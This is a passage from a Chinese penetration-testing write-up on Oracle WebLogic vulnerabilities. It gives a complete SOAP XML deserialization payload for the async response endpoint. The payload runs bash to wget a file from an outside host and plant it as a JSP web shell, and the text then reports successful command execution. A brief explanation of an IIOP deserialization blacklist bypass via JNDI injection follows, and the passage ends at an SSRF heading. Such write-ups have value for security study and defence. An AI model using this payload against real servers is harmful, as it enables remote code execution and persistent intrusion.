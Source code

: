 在浏览器访问  
  
![image-20230420122017707](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK54Hzg0go2FplM9qWaOC0Vk2ibPXtb9icoHgeB63SplPyEowKtkRibsgpibQ/640?wx_fmt=png&from=appmsg "")  
  
接下来就可以直接打了，更改**Content-Type为:text/xml**  
，而后传输POST数据如下  

```
<soapenv:Envelope
xmlns:soapenv=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34; xmlns:wsa=&#34;http://www.w3.org/2005/08/addressing&#34; xmlns:asy=&#34;http://www.bea.com/async/AsyncResponseService&#34;>
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work=&#34;http://bea.com/2004/06/soap/workarea/&#34;>
<voidclass=&#34;java.lang.ProcessBuilder&#34;>
<array class=&#34;java.lang.String&#34; length=&#34;3&#34;>
<void index=&#34;0&#34;>
<string>/bin/bash</string>
</void>
<void index=&#34;1&#34;>
<string>-c</string>
</void>
<void index=&#34;2&#34;>
<string>wget http://192.168.1.129:1387/shell.txt -O servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/8tpkys/war/shell.jsp</string>
</void>
</array>
<void method=&#34;start&#34;/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

  
![image-20230420121756747](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5MhTQFHoQfDctFUo35gXYK4icBbWW0enuDFNAfBP82iazTHziapbAknzyA/640?wx_fmt=png&from=appmsg "")  
  
状态202则说明成功写入，接下来去访问这个木马文件并尝试执行命令  
  
![image-20230420121831475](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5nP2WacicEBd9dkiacCKUowsJAzMuM0kEVdOn09ibMBs5icBXBsKNTIbeibw/640?wx_fmt=png&from=appmsg "")  
  
![image-20230420121850723](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5VVQww0eqynIauDWibD79CqmWHqDmbJRuic23EYfLcIgA8t50icqytn2ow/640?wx_fmt=png&from=appmsg "")  
  
成功实现命令执行  
## iiop反序列化漏洞  
  
**漏洞主要原因是错误的过滤JtaTransactionManager类，JtaTransactionManager父类AbstractPlatformTransactionManager在之前的补丁里面就加入到黑名单列表了,T3协议使用的是resolveClass方法去过滤的,resolveClass方法是会读取父类的,所以T3协议这样过滤是没问题的。但是IIOP协议这块,虽然也是使用的这个黑名单列表,但不是使用resolveClass方法去判断的,这样默认只会判断本类的类名,而JtaTransactionManager类是不在黑名单列表里面的,它的父类才在黑名单列表里面,这样就可以反序列化JtaTransactionManager类了,而JtaTransactionManager类是存在jndi注入的。**  
## SSRF漏洞  
  